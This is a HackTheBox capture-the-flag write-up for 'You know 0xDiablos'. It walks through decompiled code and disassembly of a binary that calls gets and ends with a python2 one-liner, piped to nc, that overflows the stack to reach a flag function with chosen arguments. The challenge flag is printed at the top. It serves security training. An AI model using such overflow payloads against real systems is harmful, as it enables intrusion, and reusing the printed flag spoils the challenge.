 ```yaml
---
description: You know 0xDiablos challenge from HackTheBox write up.
password: HTB{0ur_Buff3r_1s_not_healthy}
---
```


# You know 0xDiablos

The first thing I did was open the binay with Ghidra:

```c
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}


undefined4 main(void)
{
  __gid_t __rgid;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```

As we can see here, the `vuln` function is using `gets`, what is vulnerable to a buffer overflow. We can also find a `flag` function that will print the flag to us when executed:

```c
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

According to radare the entrypoint for this function is: `0x080491e2`. Since the binary has no protections regarding ASLR:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/You know 0xDiablos]
└─$ checksec vuln 
[*] '/home/kali/Desktop/HTB/You know 0xDiablos/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can create a 188 bytes payload (180 bytes for the buffer, 4 bytes for the 8 bytes alligment and 4 bytes for the EBP) followed by the `flag` function entrypoint address in little endian to overwrite the stack return pointer and make the program execute the `flag` function. Nice, now for the flag function to print the flag we need to also modify the function parameters:

```assembly
[0xf7f470b0]> pdf @sym.flag
┌ 144: sym.flag (int32_t arg_8h, int32_t arg_ch);
│           ; var int32_t var_4ch @ ebp-0x4c
│           ; var int32_t var_ch @ ebp-0xc
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_8h @ ebp+0x8
│           ; arg int32_t arg_ch @ ebp+0xc
│           0x080491e2      55             push ebp
│           0x080491e3      89e5           mov ebp, esp
│           0x080491e5      53             push ebx
│           0x080491e6      83ec54         sub esp, 0x54
│           0x080491e9      e832ffffff     call sym.__x86.get_pc_thunk.bx
│           0x080491ee      81c3122e0000   add ebx, 0x2e12
│           0x080491f4      83ec08         sub esp, 8
│           0x080491f7      8d8308e0ffff   lea eax, [ebx - 0x1ff8]
│           0x080491fd      50             push eax
│           0x080491fe      8d830ae0ffff   lea eax, [ebx - 0x1ff6]
│           0x08049204      50             push eax
│           0x08049205      e8a6feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)                                                                                                                         
│           0x0804920a      83c410         add esp, 0x10
│           0x0804920d      8945f4         mov dword [var_ch], eax
│           0x08049210      837df400       cmp dword [var_ch], 0
│       ┌─< 0x08049214      751c           jne 0x8049232
│       │   0x08049216      83ec0c         sub esp, 0xc
│       │   0x08049219      8d8314e0ffff   lea eax, [ebx - 0x1fec]
│       │   0x0804921f      50             push eax
│       │   0x08049220      e84bfeffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x08049225      83c410         add esp, 0x10
│       │   0x08049228      83ec0c         sub esp, 0xc
│       │   0x0804922b      6a00           push 0
│       │   0x0804922d      e84efeffff     call sym.imp.exit           ; void exit(int status)
│       └─> 0x08049232      83ec04         sub esp, 4
│           0x08049235      ff75f4         push dword [var_ch]
│           0x08049238      6a40           push 0x40                   ; '@' ; 64
│           0x0804923a      8d45b4         lea eax, [var_4ch]
│           0x0804923d      50             push eax
│           0x0804923e      e80dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08049243      83c410         add esp, 0x10
│           0x08049246      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef
│       ┌─< 0x0804924d      751a           jne 0x8049269
│       │   0x0804924f      817d0c0dd0de.  cmp dword [arg_ch], 0xc0ded00d
│      ┌──< 0x08049256      7514           jne 0x804926c
│      ││   0x08049258      83ec0c         sub esp, 0xc
│      ││   0x0804925b      8d45b4         lea eax, [var_4ch]
│      ││   0x0804925e      50             push eax
│      ││   0x0804925f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
│      ││   0x08049264      83c410         add esp, 0x10
│     ┌───< 0x08049267      eb04           jmp 0x804926d
│     ││└─> 0x08049269      90             nop
│     ││┌─< 0x0804926a      eb01           jmp 0x804926d
│     │└──> 0x0804926c      90             nop
│     │ │   ; CODE XREFS from sym.flag @ 0x8049267, 0x804926a
│     └─└─> 0x0804926d      8b5dfc         mov ebx, dword [var_4h]
│           0x08049270      c9             leave
└           0x08049271      c3             ret
```

Adding 4 bytes for the function return pointer (We don't really care) and then the values of the parameters (`0xdeadbeef` and `0xc0ded00d`) in hexadecimal and little endian will do:


```bash
python2 -c "print(b'A'*188 + b'\xe2\x91\x04\x08' + b'A'*4 + b'\xef\xbe\xad\xde' + b'\x0d\xd0\xde\xc0')" | nc <MACHINE_IP> <MACHINE_PORT>
```

